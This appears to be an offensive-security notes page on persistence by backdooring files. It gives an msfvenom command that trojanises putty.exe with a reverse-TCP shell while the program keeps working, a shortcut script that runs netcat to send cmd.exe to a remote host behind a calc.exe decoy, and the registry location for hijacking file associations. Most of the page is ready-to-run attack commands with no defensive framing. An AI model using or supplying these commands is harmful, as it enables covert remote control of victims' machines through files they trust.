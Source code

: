 # Backdooring Files
We can tamper with files we know the user interacts with regularly.

## Executable Files
you can plant a payload in any exe file using `msvenom`. This will execute an extra thread in your binary while still retaining all functionality.

```sh
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.10.10.10 lport=4444 -b "\x00" -f exe -o puttyX.exe
```

## Shortcut Files
We can point a shortcut to a script we control. Lets create an example script
```sh
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.10.10 4445"
C:\Windows\System32\calc.exe
```

## HiJacking File Associations
Default operating system file associations are kept inside the registry. A key is stored for every single file type under:

```sh
HKLM\Software\Classes\.txt
```
[text file](txt.png)

